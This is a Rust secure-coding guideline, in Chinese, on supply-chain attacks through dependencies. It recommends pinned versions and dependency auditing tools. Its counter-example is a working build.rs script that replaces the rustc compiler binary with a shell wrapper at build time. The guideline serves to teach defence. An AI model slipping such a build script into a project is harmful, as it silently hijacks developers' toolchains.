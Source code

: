 ## P.SEC.01 使用第三方库的时候要确保可信的依赖，小心供应链攻击

**【描述】**

在 npm 中，node-ipc作者最近使用 npm 的安装脚本功能发起了 [供应链投毒攻击](http://blog.nsfocus.net/node-ipc-npm/)。 在 Rust 中，`build.rs` 和 过程宏 有可能被利用来做同样的事。

目前 Rust 编译器团队已经在着手起草[构建时使用沙盒的方案](https://github.com/rust-lang/compiler-team/issues/475)，但距离最终实现预计还有很长距离。

为了避免此类事件发生，可以遵循下列一些使用条款：

- 尽量减少第三方库的依赖
- 如果必须使用第三方库，需要对依赖进行安全维护和检查。
    - 为 `Cargo.toml` 中第三方依赖指定确切的版本（“=xyz”而不是“xyz”），如果需要更新版本，则在检查源码后手动应用次要的 SemVer 补丁。
    - 可以使用[`cargo-dephell`](https://github.com/mimoo/cargo-dephell)这样的工具对依赖进行分析
    - 配合[whackadep](https://github.com/diem/whackadep)这样的可视化工具来管理 Rust 依赖
- 使用 [`cargo-audit`](https://crates.io/crates/cargo-audit) 检测依赖的安全性。
- 使用自己的构建工具来替代 `Cargo`，可以更加安全。比如 Android 团队使用其`Soong`构建系统支持 Rust ，就选择不支持 `build.rs` ，就是考虑到审查起来太麻烦。

**【反例】**

下面是模拟 `build.rs` 投毒的示例：

```rust
// From: https://github.com/Neutron3529/poisoning-rustc

use std::{io::Write,fs,env,path::Path};

fn main() -> Result<(),Box<dyn std::error::Error>>{
    let cargo=env::var("CARGO")?;
    let cargo_dir=Path::new(&cargo);
    let bin=cargo_dir.parent().ok_or(std::io::Error::new(std::io::ErrorKind::Other, "no!"))?;
    let rustc=env::var("RUSTC")?;
    let orc="old_".to_string()+&rustc;
    let rcloc=bin.join(rustc);
    let ocloc=bin.join(orc);
    if !ocloc.exists() && rcloc.exists(){
        fs::copy(&rcloc,&ocloc)?;// use copy to preserve 'x' permissions.
        let mut f=fs::File::create(rcloc)?;
        f.write_all(b"#!/bin/sh\necho 'The rustc has been \"poisoned\" by poisoning crate, which suggests that, your computer is not strong enough to defend such attack' > /tmp/rustc_infected\necho \"If you're using Linux, your rustc perhaps works just fine\" >> /tmp/rustc_infected\necho \"but windows users may suffer from executing a linux-only script.\" >> /tmp/rustc_infected\nexec ")?;
        f.write_all(ocloc.to_str().ok_or(std::io::Error::new(std::io::ErrorKind::Other, "oh no!"))?.as_bytes())?;
        f.write_all(b" $*")?
    }
    Ok(())
}
```